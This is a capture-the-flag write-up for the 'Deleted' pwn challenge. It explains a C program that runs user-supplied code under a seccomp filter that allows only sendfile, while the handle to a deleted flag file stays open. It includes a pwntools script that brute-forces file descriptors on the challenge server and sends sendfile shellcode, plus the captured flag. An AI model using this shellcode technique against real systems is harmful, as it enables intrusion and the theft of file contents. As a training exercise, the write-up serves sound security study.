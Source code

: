 # Deleted flag

![](https://i.imgur.com/pP4sEqo.png)

> [200 points]
> Deleted
> We've removed your flag. Good luck getting it back.
> Flag format: CTF{32-hex}"

The program is pretty simple to read and understand. I've commented the provided code and refactored it slightly so it's easier to follow:

```
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <seccomp.h>
#include <sys/mman.h>
#include <limits.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <string.h>

/* 
 * C black magic to define a function type called void_fn 
 * which takes no parameters (void)
 * and returns nothing (void)
 */
typedef void (*void_fn)(void);

void setup_seccomp(void);

int main(void) {
	// unbuffered output to stdout
    setbuf(stdout, NULL);
	
	// open the flag.txt file
    FILE * fptr = fopen("flag.txt","r");
	
	// read its file descriptor index and print it
    int fd = fileno(fptr);
    printf("%d\n", fd);
	
    puts("Goodbye flag!");

	// remove the flag.txt file
    int ret = remove("flag.txt");
    if (ret == 0) {
        puts("Flag file successfully removed.");
    } else {
        puts("Error removing flag file");
        exit(-1);
    }

    puts("What do you have to say about us so carelessly removing your precious flag?");
	
	// make a readable, writable and executable buffer of 4096 bytes
    void * buf = mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
    void_fn sc = (void_fn) buf;
	
	// read 100 bytes from stdin into the buffer
    ssize_t num_read = read(0, buf, 100);

	// setup seccomp stuff - see setup_seccomp function below
    setup_seccomp();
	
	// execute the input buffer (ie. execute whatever was supplied by the user)
    sc();

    return 0;
}

void setup_seccomp() {
    scmp_filter_ctx ctx;
	
	// initialise seccomp and set it to kill the process 
	// if it attempts to bypass seccomp restrictions 
    ctx = seccomp_init(SCMP_ACT_KILL);
    int ret = 0;
	
	// add a rule to allow sendfile system calls
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sendfile), 0);
	
	// load the current context
    ret |= seccomp_load(ctx);
	
	// exit on failure of any of the above
    if (ret) {
        exit(1);
    }
}

```

From this code, we can see a few things happening which in the end allow us to retrieved the flag.

We can see that the flag file pointer is open and therefore should have an open file descriptor for it:
```
    FILE * fptr = fopen("flag.txt","r");
```
This file is never closed which means the file descriptor is accessible until the program exits or finishes.

When I did this challenge, I didn't realise that the file descriptor index is printed when the program starts:
```
	// read its file descriptor index and print it
    int fd = fileno(fptr);
    printf("%d\n", fd);
```
However, its not really needed since you can just bruteforce it. I'll showcase the bruteforce solution in this writeup, however a smarter exploit would have used this leak to minimize the requests required.

We can also see the application is using seccomp to protect the process from executing most system calls. However, the following line adds the ability to use the `sendfile` syscall:
```
	ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sendfile), 0);
```

Base on the manual page of the `sendfile` syscall, we can see that this syscall is used to copy data between 2 file descriptors:
```
% man sendfile
  sendfile()  copies  data between one file descriptor and another.  Because this copying is done
       within the kernel, sendfile() is more efficient than the combination of read(2)  and  write(2),
       which would require transferring data to and from user space.
[...]
```

Furthermore, on linux systems, the standard output (stdout) of a program is a stream that can be accessed via it's file descriptor. As described in the man pages, we know that standard output by default will start as file descriptor 1:
```
% man stdout
Under  normal  circumstances  every UNIX program has three streams opened for it when it starts up, one for input, one for output, and one for printing diagnostic or  error  messages.
[...]
Each  of  these symbols is a stdio(3) macro of type pointer to FILE, and can be used with functions like fprintf(3) or fread(3).
[...]
On program startup, the integer file descriptors associated with the streams stdin, stdout, and stderr  are  0,  1, and 2, respectively.
[...]
```

Lastly, we saw from the code that the programs takes user input into a buffer and attempts to execute that code:
```
	// read 100 bytes from stdin into the buffer
    ssize_t num_read = read(0, buf, 100);

[...]
	
	// execute the input buffer (ie. execute whatever was supplied by the user)
    sc();
```

At this point, we have all the information we need to write an exploit for this app:
- We need to write shellcode which will get executed by the application
- The shellcode can make use of the sendfile system call
- We need to read the flag file from an open file descriptor and copy it to stdout (filedescriptor 1)

We use pwntools since it has all the tools we need to connect to the port and contains utilities to craft shellcode including a sendfile system call via  `shellcraft.amd64.linux.sendfile` :
```
from pwn import *

# flag length
# CTF{32-hex} | 5 known chars and 32 unknow = 37 chars
flag_len = 37

stdout_fd = 1

// bruteforce the filedescriptors 
// because you rushed it and didn't read the code properly :)
for tentative_fd in range(10):
    print("tentative_fd=", tentative_fd)
	
	// connect to the port with the app
    r = remote("portal.hackazon.org",17004)
	
	// send our sendfile shellcode
    r.send(asm(shellcraft.amd64.linux.sendfile(stdout_fd,tentative_fd,0,flag_len), arch='amd64'))
    print(r.recvall())
    r.close()
```

Running the exploit, we find that the flag file is at index 5 and we managed to copy to stdout and receive it:
![](https://i.imgur.com/Hk0ZT6l.png)

> Flag: CTF{5decd42da5fb3c9b1dc0b4dd12a4bd7c}
